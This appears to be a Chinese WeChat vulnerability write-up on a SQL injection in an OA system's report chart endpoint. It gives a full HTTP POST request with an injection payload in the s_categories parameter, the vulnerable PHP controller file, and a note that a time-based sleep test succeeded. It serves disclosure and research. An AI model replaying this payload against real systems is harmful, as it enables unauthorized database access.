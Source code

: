 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/cedGEdnK7lVfmdAl\_Suw1Q)

**![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqczeflvHvDexuf2BhBEBYlJCdjJS6aVZ0w6ooY5QwK27L2khaJWEOVdw2kunkBTviakCv6QeGxYjHg/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqc9YP8YkJ4v8XkhBmarxGHmS0B3XhFLyXWOWJ2icz6Sc3Wd6p7zICm4fbA9FIvONN6yeeib9RLBY0gA/640?wx_fmt=png)

```
POST /general/appbuilder/web/report/repchart/data 
HTTP/1.1UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/appbuilder/web/report/repchart?reportId=
X-ResourceType: xhr
Cookie: PHPSESSID=1kqh5um8augkhrq8q6n7t23h46; USER\_NAME\_COOKIE=admin; OA\_USER\_ID=admin; SID\_1=cb7abbef
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 539
x-wvs-id: Acunetix-Deepscan/288
Cache-Control: no-cache
accept: \*/\*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

data\_path=%5B%5D&s\_categories="23fd<>select 9j@!fdf" #)&i\_dataset=10¶ms%5BsearchParams%5D%5B0%5D%5Bid%5D=¶ms%5BsearchParams%5D%5B0%5D%5Bkey%5D=1598155037212¶ms%5BsearchParams%5D%5B0%5D%5Blabel%5D=%E5%85%AC%E5%91%8AID¶ms%5BsearchParams%5D%5B0%5D%5Btype%5D=text¶ms%5BsearchParams%5D%5B0%5D%5Bvalue%5D=¶ms%5BsearchParams%5D%5B0%5D%5Bscope%5D=equal¶ms%5BsearchParams%5D%5B0%5D%5Bmacro%5D=false¶ms%5BsearchParams%5D%5B0%5D%5Btype\_of\_data%5D=rep¶ms%5BsearchParams%5D%5B0%5D%5Btype\_of\_reports%5D=select&id=
```

**漏洞证明：**

查看 Mysql 数据库的执行过程，mysql 日志文件，可以发现 **s\_categories** 传入的参数，被 mysql 数据库完整执行了，没有任何过滤，可以确定存在 mysql 注入漏洞

**漏洞文件：**

webroot\\general\\appbuilder\\modules\\report\\controllers\\RepChartController.php  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqc9YP8YkJ4v8XkhBmarxGHmmxpwNLhBLEibeY8bQYLLhzwicthcoe1bHk2BarZZlbnibvlP3Yw94gbGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqc9YP8YkJ4v8XkhBmarxGHmWrp79r6icDzPib18XZwo8KFPFtKBC0MIRrlwFwjgWxZVs89UV0FFubjg/640?wx_fmt=png)

测试执行 sleep 函数，注释后面语句来测试，被成功执行。

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqc9YP8YkJ4v8XkhBmarxGHmqvGaLPzrlHJfjejOc1ibuURMRRg9dL0iafsbvYogNACpvBpuibnjibOhRg/640?wx_fmt=png)

**挖掘思路：**

Fuzz+sql 日志关键字匹配 + 审计

![](https://mmbiz.qpic.cn/mmbiz_jpg/RpxgdDjibJqc9YP8YkJ4v8XkhBmarxGHm5KEAoZlEKpGASJIa1G2oowOZbia7Wngot8QMkmiczsJb0icoian14Ubtkg/640?wx_fmt=jpeg)

联系微信

**END.**

**欢迎转发~**

**欢迎关注~**

**欢迎点赞~**